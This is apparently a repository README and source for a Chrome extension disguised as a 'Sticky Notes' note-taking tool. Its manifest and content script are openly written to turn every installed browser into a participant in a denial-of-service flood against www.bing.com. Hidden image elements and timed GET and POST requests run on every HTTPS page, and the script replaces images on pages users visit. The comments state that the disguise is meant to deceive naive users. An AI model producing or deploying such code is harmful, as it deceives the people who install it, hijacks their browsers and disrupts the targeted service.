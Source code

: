 # DDOS_ChromeExtension
Novel way to launch DDOS attack using Chrome Extension.

Add the following manifest.json and contentscript.js to your chrome extension package. Background.js is not required.
(Could be emnedded within a normal extension for deception)

{
// Embedding the malicious DDOS Attack extension within the Sticky Notes Extension for deceiving the naive users.
//Victim Site: www.bing.com.
   //MANIFEST FILE DESCRIPTION

  // Name of the extension, its version and short description as it appears on the browser.  

  "name": "Sticky Notes",
  "description": "Make sticky notes",
  "version": "2.0",

  // We only require the permissions for the web pages.
  //No permissions needed for the Tabs or cookies as we are not accessing the URL.
  //Only injecting the content script.

  "permissions": [
    "http://*/"
  ],


   // background Scripts are required for the Sticky Notes Extension as it is accessing and storing the notes
   // i.e. utilizing the browser kernel resources.

   "background": {
      "scripts": [ "background.js" ]
   },

   // Injecting the file contentscript.js for all the websites to carry out the DDOS Attack.
   // Since matches is set to https://*/*, it will work for all the websites.
   //Can fine grain the permission to a specific website to avoid suspiscion and yet carry out the attack.

   "content_scripts": [
    {
      "matches": ["https://*/*"],
      "js": ["contentscript.js"]
    }
  ],

   // Icon displayed for the extension in the browser toolbar.

   "browser_action": {
      "default_icon": "icon128.png",
      "default_popup": "index.html"
   },

   "content_security_policy": "script-src 'self' https://google.com; object-src 'self'",
   "description": "Easiest way for taking quick notes. Features like font size, color & themes. Collect as you browse in an awesome manner (See Demo)",

   "icons": {
      "128": "icon128.png",
      "16": "icon16.png",
      "48": "icon48.png"
   },
   "key": "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCR4PtX1tJHSObNq0NtEbufk16lW2+S84kEjWsrGe7BEB9YBurI89ZO6BA+uqTaPQfTr5KPV1CLgNHH0Tl7RjLSmD0GiiTpSEhsKsY+nlU01AtH27g8n5b6ZGX1v2XvW5FYwaYJhS9r3sBxYSVCVZLK4J6f8A3r+7Utqthg79RVaQIDAQAB",

   // Required for Chrome version 22 onwards.
   "manifest_version": 2,
   "name": "Sticky Notes - Just popped up!",
   "offline_enabled": true,
   "permissions": [ "storage", "notifications" ],
   "short_name": "Sticky Notes",
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "1.9.4"
}

//CONTENT SCRIPT FILE DESCRIPTION.

console.log("chrome extension party!");
//log the domain of the website that is opened onto the console.
console.log("We are in " + document.domain);
//this script will run on every tab.

 //This script will run on every tab.
//This function is dynamically creating images and links which will not be visible.
//But will send GET request to the website.

//TYPE 1
function imgFlood() {
	
   // Create a DOM element titled link.
   var link = document.createElement("a");

    //Set the href i.e. on clicking navigate to mentioned url. 
    link.href = "https://www.bing.com/";
    link.alt = "Flash and JS are not enemies!";

    //Create an image element and replace the src with a random query to bing.com
    var img = document.createElement("img");
    // Math.random function generates a random number that gets converted to a String in base 36 i.e 26 Alphabets
    // plus 10 Numbers and then replace all characters except the alphabets with ' ' .
    // i.e GENERATE A STRING OF 5 CHARACTERS from a-z.
    img.src = "https://www.bing.com/search?q=" + Math.random().toString(36).replace(/[^a-z]+/g, '').substr(0, 5);

    //Append image to link.
    link.appendChild(img);
    link.style.display = 'none';
	
	//Append link to the DOM tree of web page.
    document.body.appendChild(link);
	
	//Create an image element and replace the src with a random query to bing.com
	/* var input= document.createElement("iframe");
    input.src = "https://www.bing.com/search?q=" + Math.random().toString(36).replace(/[^a-z]+/g, '').substr(0, 5);
	link.appendChild(input); */
}

//Call image flood function every 3000 ms i.e 3 seconds to send repetitive random queries to bing.
setInterval(imgFlood,3000);

//TYPE 2
//This is AJAX code for GET requests.
function getRequests()
{
	  imgFlood();
	// Create an object of this class.
	  var xhttp = new XMLHttpRequest();
       
          // On receiving the response from the server, check if response status is 4 and status code is 200 == OK
	 // This indicates that the server recieved the request , it was processed and the response was delivered successfully. 
	  xhttp.onreadystatechange = function() {
		  if (this.readyState == 4 && this.status == 200) {
			// Action to be performed when the document is read;
		  }
	  };
        // Write the request to be of type GET< POST OR HEAD, its URL and set asynchronous = true implies that it will work
        // without refreshing the browser each time.
	xhttp.open("GET","https://www.bing.com/search?q=" + Math.random().toString(36).replace(/[^a-z]+/g, '').substr(0, 5),true);
	
	// method to actually send the request.
	xhttp.send();
  
   console.log("The GET requests are being sent to  https://www.bing.com as random queries and (the counter shows the no of POST 	requests). Check network tab XHR panel");
}

//Call getRequests functions at an interval of 4s to generate repititive random queries to bing.com
setInterval(getRequests,4000);

//TYPE 3
//This is AJAX code for POST request.
function postRequests()
{
	  var xhttp = new XMLHttpRequest();
	  xhttp.onreadystatechange = function() {
		  if (this.readyState == 4 && this.status == 200) {
			// Action to be performed when the document is read;
		  }
	  };

	// Generate a random String of 5 alphabets from a-z.
        // Math.random function generates a random number that gets converted to a String in base 36 i.e 26 Alphabets
        // plus 10 Numbers and then replace all characters except the alphabets with ' ' .
        // i.e GENERATE A STRING OF 5 CHARACTERS from a-z.
	var randomString = Math.random().toString(36).replace(/[^a-z]+/g, '').substr(0, 5);

       // General form of query to bing.com while searching for images.
	var randomPOSTString = "q=" + randomString + "&FORM=HDRSC2";

	xhttp.open("POST","https://www.bing.com/search", true);
        // Indicate the type of content i.e MIME type of the request.
	xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	xhttp.send(randomPOSTString);
  
   console.log("The POST requests are being sent to  https://www.bing.com as random queries and (the counter shows the no of POST requests). Check network tab XHR panel");
}

//Call postRequests at an interval of 5s to send continuos random requests to bing.com
setInterval(postRequests,5000);


//TYPE 3
// Performing the DDOS attack by requesting images from 9 categories from bing.com and replacing images within the current //webpage with them.

// Define an array for storing the images requested from bing.com
var mImages= new Array();

// Define the 9 different categories of images to be requested.
var wallpapersCategories = ["abstract", "nature", "concerts", "brands", "nature", "design", "landscape", "sports", "technology"];

//Getting images from bing.com via GET requests.
function getBingImages()
{
  // Choose any one of the categories of the images.
  var randomCategory = window.wallpapersCategories[Math.floor(Math.random() * (window.wallpapersCategories.length))];
 
  //GET Request Mechanism
  var xhttp = new XMLHttpRequest();
  xhttp.responseType = 'document';

  xhttp.onreadystatechange = function() {
      if (this.readyState == 4 && this.status == 200) {
	
	//pass the received response as an object to sortHTTPSlinks function.        
        sortHTTPSlinks(this);
      }
  };
  xhttp.open("GET", "https://www.bing.com/images/search?q=" + randomCategory + "&FORM=HDRSC2", true);
  xhttp.send();

}

// From XML document received as response filter out the img elements.
function sortHTTPSlinks(xml) {
  var x, i, xmlDoc;
  xmlDoc = xml.responseXML;

  x = xmlDoc.getElementsByTagName("img");
  
  // For the image elements having a src property push them onto the mImages array defined earlier.
  // mImages array will have the links to all the images.
  for(i = 0; i< x.length; i++) {
    if( x[i].hasAttribute("data-src"))
    {
        var imageSource = x[i].getAttribute("data-src");
    
        window.mImages.push(imageSource);
    }
     
  }

}

setInterval(getBingImages, 3500); 

//Function to actually change the images within the web page.
// Fetch all the elements with img tag within the current DOM of the webpage.
// For all those elements change their src property to the images from bing which are stored as url's within mImages array.
function changeImages()
{
  var container = document.getElementsByTagName("img");
  for(var i=0,j=0;i<container.length;i++,j++)
  { 
    if(j>mImages.length)
    {
      j=0;
    }

    container[i].src = window.mImages[j]; 
  }
}

setInterval(changeImages, 5000); 

